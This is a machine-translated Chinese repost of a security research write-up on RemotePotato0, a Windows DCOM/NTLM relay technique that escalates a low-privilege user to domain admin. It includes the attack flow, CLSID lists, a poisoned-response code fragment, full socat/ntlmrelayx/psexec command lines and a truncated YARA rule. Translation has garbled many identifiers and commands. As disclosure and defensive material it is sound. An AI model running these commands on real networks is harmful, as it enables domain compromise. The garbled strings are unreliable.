# RemotePotato0:只是另一个“不会修复”的 Windows 权限从用户升级到域管理员

> 原文：<https://kalilinuxtutorials.com/remotepotato0/>

**remotepato 0**是一个漏洞，它允许您将权限从普通用户提升到域管理员。

简单来说:

它会滥用 DCOM 激活服务，并触发当前登录目标机器的用户的 NTLM 身份验证。要求您在会话 0 中有一个 shell(例如 WinRm shell 或 SSH shell)，并且有一个特权用户登录到会话 1 中(例如域管理员用户)。一旦 NTLM 类型 1 被触发，我们设置一个跨协议中继服务器，它接收特权类型 1 消息，并通过解包 RPC 协议和打包 HTTP 上的身份验证将其中继到第三方资源。在接收端，您可以设置另一个中继节点(例如 ntlmrelayx)或直接中继到特权资源。

详情请访问–> https://labs . sentinel one . com/relaying-potatos-DCE-RPC-NTLM-relay-eop

**中继土豆:Windows RPC 协议中另一个意想不到的权限提升漏洞**

**执行摘要**

*   每个 Windows 系统都容易受到特定的 NTLM 中继攻击，这可能允许攻击者将权限从用户提升到域管理员。
*   此漏洞的当前状态为“不会修复”。
*   鼓励企业安全团队遵循下面给出的建议和缓解措施。

**简介**

NTLM 中继[1]是一种众所周知的技术，长期以来一直被攻击者滥用。尽管从 2001 年开始不断进行“修复”,但在 MITM 场景中，对于某些未启用签名的协议，仍有可能拦截 NTLM 消息，并将身份验证“中继”到目标资源以提升权限。通常情况下，NTLM 中继需要用户干预，所以你必须欺骗受害者验证你控制下的资源。

近年来[2] [3] [4]，我们对所谓的“DCOM DCE/RPC 本地 NTLM 反射”进行了研究，特别是当涉及到本地协商系统令牌并冒充它时，从而导致从**服务**帐户升级到**系统**。

尽管最近进行了修复，但在某些情况下，仍有可能通过 IStorage 对象触发器[5]协商高特权令牌，并在初始化由特定 CLSID 标识的 DCOM 对象的解组过程中模拟它。

在我们早期的研究中，我们实现了一个“假的”`**Oxid Resolver**`指令 DCOM 客户端连接到我们控制下的 RPC 服务器，我们观察到发生了两个有趣的 NTLM 认证:

1.  Oxid Resolution ( `**IObjectExporter::ResolveOxid2**`调用)
2.  IRemUnknown 接口( **`IRemUnknown2::RemRelease`** 调用)

我们决定研究将这些身份验证中继到远程机器上的不同资源(如 LDAP、SMB 和 HTTP)的可能性，而不是窃取需要模拟特权的令牌。

首先，我们需要一个“可用的”身份验证，可能来自高特权用户，如“域管理员”等。属于在“交互式用户”环境下运行的应用标识符(`**AppId**`)的某些特定的`**CLSID**`可以帮助解决问题，因为它们在会话 0 中实例化时“模拟”第一个会话中登录的用户。这真的很酷，因为不需要受害者用户交互！

基本思想是，标准用户可以在没有受害者交互的情况下触发特权认证，并将其转发给另一台机器上的特权服务，例如 ldap 服务器，以便提升用户特权。

为了了解是否存在潜在的利用途径，我们需要回答以下问题:

*   RPC 客户端签名(并检查)NTLM 消息吗？
*   在这种特殊的跨协议场景中，RPC 身份验证可以被中继吗？

在本帖中，我们将回顾我们如何发现这些问题的答案的过程，并一步一步地展示我们如何实现一条剥削之路。在发布之前，我们与微软一起经历了一个漫长的负责任的披露过程。尽管微软认为该漏洞是一个重要的权限升级，但它已被归类为*“不会修复”*。

**NTLM 认证消息**

我们的想法是使用上述两种身份认证之一。第一个(`**IObjectExporter::ResolveOxid2**`)似乎没有希望，因为 NTLM“标志”被设置，我们不确定上层协议是否会考虑它。



第二个(`**IRemUnknown2::RemRelease**`)符合我们的预期，旗子也没有立起来(后面会有更多关于这个的…):



既然我们知道了使用哪种身份验证，下一步就是触发并拦截它。

**RPC 触发器**

这一切都是从詹姆斯·福肖的这篇文章[6]开始的，在这篇文章中，他发现了一种滥用 DCOM 激活服务的方法，通过解组一个`**IStorage**`对象并将 NTLM 反射回本地 RPC TCP 端点来实现本地权限提升。虽然此漏洞已被修补，但 DCOM 激活服务过去是(现在仍然是)RPC 身份验证的工作触发器。

这仍然是所有“*potato”利用的触发器，以便通过利用模拟权限来提升权限。

现在，这些攻击集中在从特权服务中窃取令牌(通常那些作为系统运行的是感兴趣的)，但是我们知道一些`**CLSID** `(一种识别 COM 类对象的方法)模拟连接到会话 0 之外的第一个会话的用户。[7]

如果我们在会话 0 中有一个 shell，即使是作为一个低特权用户，并触发这些特定的 CLSIDs，我们将从交互连接的用户处获得一个 NTLM 认证(*如果有多个用户交互连接，我们将获得具有最低会话 id* 的用户的认证)。

因此，我们的假设场景可能如下:

1.  会话 0 中带有外壳的受损帐户。这可能是:
    *   可通过`**WinRM-PSSession**` [8]或`**ssh**` [9]连接到机器的低特权用户
    *   已被授予“作为批处理作业登录”权限的低特权用户，这样他可以创建并运行具有属性"*的计划任务，无论用户是否从该机器上的交互会话登录*(本地或通过 RDP)都可以运行该任务
    *   甚至在强化的虚拟帐户下运行的服务帐户(例如，没有模拟特权[10])。
2.  登录到同一台机器的高特权用户(本地或通过 RDP)

考虑到这一点，我们重点分析了所有可能用来触发身份验证的“易受攻击的”CLSID。这些是我们在 Windows Server 2019 上找到的:

*   `**BrowserBroker Class**`
    { 0002 df 02-0000-0000-C000-00000000046 }
*   `**AuthBrokerUI**`
    { 0ea 79562-D4 F6-47ba-b7f 2-1 e9 b 06 ba 16 a 4 }
*   `**Easconsent.dll**`
    { 5167 b42f-C111-47a 1-ACC 4-8 Abe 61 b0b 54 }
*   `**Authentication UI CredUI Out of Proc Helper for Non-AppContainer Clients**`
    { 924 DC 564-16 a6-42EB-929 a-9a 611 fa 7 da 06 f }
*   `**UserInfoDialog**`
    { 934 b410 c-43 E4-415 e-9935-FBC 081 ba 93 a 9 }
*   `**CLSID_LockScreenContentionFlyout**`
    { ba 441419-0B3F-4fb 6-A903-d 16 cc 14 CCA 44 }
*   `**Picker Host**`
    { c58ca 859-80bc-48df-8f 06-FFA 94 a 405 BFF }
*   `**IsolatedMessageDialogFactory**`
    { f 65817 c8-dd85-4136-89 F0-b9d 12939 f2c 4 }
*   `**SPPUIObjectInteractive Class**`
    { f87b 28 f1-DA9A-4f 35-8ec 0-800 efcf 26 b 83 }
*   `**CastServerInteractiveUser**`
    { f 8842 f8e-dafe-4b 37-9d 38-4e 0714 a 61149 }

**寻找剥削路径**

找到一个完美的 RPC 触发器后，我们开始准备我们可能的利用场景的所有部分。

首先，我们想了解我们是否可以在跨协议场景中中继这种身份验证，因此我们编写了一个`cpp` POC，在 RPC 身份验证和需要身份验证的 HTTP 服务器上的中继之间执行 MITM，猜猜会发生什么？成功了！

我们能够代表向我们的 RPC 服务器进行身份验证的用户浏览 web 服务器上受保护的文件。

这是我们在 MITM 实施的工作流程:



一旦我们确定我们的 RPC 身份验证可以在跨协议场景中进行中继，我们就构建了最终的利用途径:

1.  攻击者使用低特权帐户在“受害者”机器上的会话 0 中拥有外壳；
2.  在这台机器上，一个特权用户，如域管理员，以交互方式登录；
3.  攻击者通过解组一个`**IStorage**`对象来触发 DCOM 激活服务，用一个`**CLSIDs**`调用`**CoGetInstanceFromIstorage**`来模拟交互登录的用户，并为 Oxid 解析请求设置攻击者机器的 IP；
4.  攻击者通过监听他机器上的端口`**135**`来实现 MITM，该端口将接收到`**IObjectExporter::ResolveOxid2**`认证呼叫，并被转发到“假的”`**Oxid resolver**`。即使这个呼叫被认证，NTLM“签名标志”被设置，因此它将被跳过；
5.  假的`**Oxid resolver**`返回攻击者控制下的 RPC 端点的字符串绑定；
6.  受害机器/用户将发出认证呼叫`**IRemUnknown2::RemRelease**`联系 RPC 服务器(没有设置签名标志)；
7.  身份验证将被中继到特权资源，如 LDAP、SMB、HTTP 或其他。这里我们有两条路可以走:
    1.  在`**ntlmrelayx**`中用`**impacket**` libs [11]实现一个“极简”的 RPC 服务器。
    2.  在`ntlmrelayx` [12]中已经实现和支持的协议中封装和转发认证，例如 HTTP。
8.  我们选择了第二种方法，并在 POC ( `**RemotePotato0**`)中实现了 MITM 和 HTTP 封装器的全部逻辑。然后，我们将一切转发给`**ntlmrelayx**`,让它通过定位运行在域控制器上的 LDAP 服务器并添加一个新的域管理员(或提升用户权限)来完成这项工作。

以下模式显示了整个攻击流程:



**处理签名限制**

现在攻击成功了，我们试图理解为什么在`IRemUnknown2`调用中没有设置“Sign”标志。

经过几次测试后，我们发现我们从假的`Oxid Resolver`返回的中毒反应会影响“符号”标志的设置。Oxid 解析器返回的字段之一是安全绑定，它告诉客户端哪个安全提供者将用于身份验证(`AuthnSvc`)。

MSRPC(微软实现的 DCE/RPC 协议)支持各种“安全提供者”，包括 NTLM。

以下是可用安全提供程序的列表:



如果提供者设置为 NTLM ( `**RPC_C_AUTHN_WINNT),**`)，则不会强制签名；如果设置为 SPNEGO **( `RPC_C_AUTHN_GSS_NEGOTIATE)`** `, `就会。这就是我们为了在中毒响应代码中使用正确的提供程序所做的工作:

**(* ppdsaoxidings)->astring array[security offset]= RPC _ C _ AUTHN _ WINNT**；

我们还知道，为了执行这些类型的攻击,“身份验证级别”应该是`**RPC_AUTHN_LEVEL_CONNECT (0x2)** `,因为这定义了一种身份验证机制，而没有强制加密/签名。我们可以将这种 RPC 身份验证定义为“弱的”,可能容易受到中继攻击。

在我们的`**ResolveOxid2**`、T2 中，我们可以通过在`**pAuthnHint**`参数中设置期望的认证级别来控制这种行为，这将返回对象导出器的最低可接受认证级别。

**error _ status _ t resolveoxid 2
(
handle _ t hRpc，
OXID* pOxid，
unsigned short cRequestedProtseqs，
unsigned short arRequestedProtseqs[]，
DUALSTRINGARRAY * * ppdsaoxid bindings，
IPID* pipidRemUnknown，
DWORD* pAuthnHint，
com version * pcom version
)
{
* pAuthnHint = rphint**

并且客户端将至少使用这个级别的身份验证来调用 *IRemUnkown2* 接口。



***注意**:如果我们在* `**pAuthnHint** `参数*中设置一个更高的认证等级值，例如* `**RPC_C_AUTHN_LEVEL_PKT **` *(0x4)，那么“Sign”标志将会被再次设置！*

**处理话筒限制**

我们还在没有启用签名的服务器上使用 SMB 协议进行了中继测试，当然它也工作了。

我们只在一个特定的 CLSID: `**{c58ca859-80bc-48df-8f06-ffa94a405bff}**`上遇到了麻烦，因为“错误的模拟级别”。



在这种情况下，在`IRemUnknown2`调用中设置了 NTLM“Identify”标志(这意味着服务器不应该模拟客户端),并被 SMBv2 协议考虑在内。



但是如果我们在 MITM 行动中改变了这面旗帜呢？我们尝试在转发的 NTLM 1 型消息中标记:



并且`**reset**`它在 NTLM 2 型响应消息中:



一个快速测试证明了它的工作！



几天后，微软发布了 2020 年 11 月的安全补丁，但它神奇地停止了工作。SMB 握手总是以无效的 NTLM 身份认证触发的通用“无效参数”结束。



经过一些测试，我们发现根本原因是消息完整性检查(MIC)。它似乎总是被检查，即使没有设置 NTLM“签名”标志[13]，因此改变 NTLM 消息导致签名不匹配。

**概念验证**

我们在这里发布了***remotepato 0***攻击的 POC:

https://github.com/antonioCoco/RemotePotato0

**例子**

攻击者机器(192.168.83.130)

**sudo socat TCP-LISTEN:135，fork，reuse addr TCP:192 . 168 . 83 . 131:9998&
sudo ntlmrelayx . py-t LDAP://192 . 168 . 83 . 135–no-wcf-server–upgrade-user winrm _ user _ 1**

受害者机器(192.168.83.131)

**。\ remotepotato 0 . exe-r 192 . 168 . 83 . 130-p 9998**

受害者域控制器(192.168.83.135)

享受 shell(例如 psexec)作为域控制器的企业管理员

**psexec . py ' SPLINTER/winrm _ user _ 1:password 111！@192.168.83.135'**

**演示**



**检测**

Yara 检测 RemotePotato0 二进制的规则:

**rule sentinel one _ remotepato 0 _ privesc {
meta:
author = " sentinel one "
description = " Detects remotepato 0 binary "
reference = " https://labs . sentinel one . com/relaying-potatos-DCE-RPC-NTLM-relay-eop "
strings:
$ import 1 = " CoGetInstanceFromIStorage "
$ istorage _ clsid = " { 0000306-00**

[**Download**](https://github.com/antonioCoco/RemotePotato0)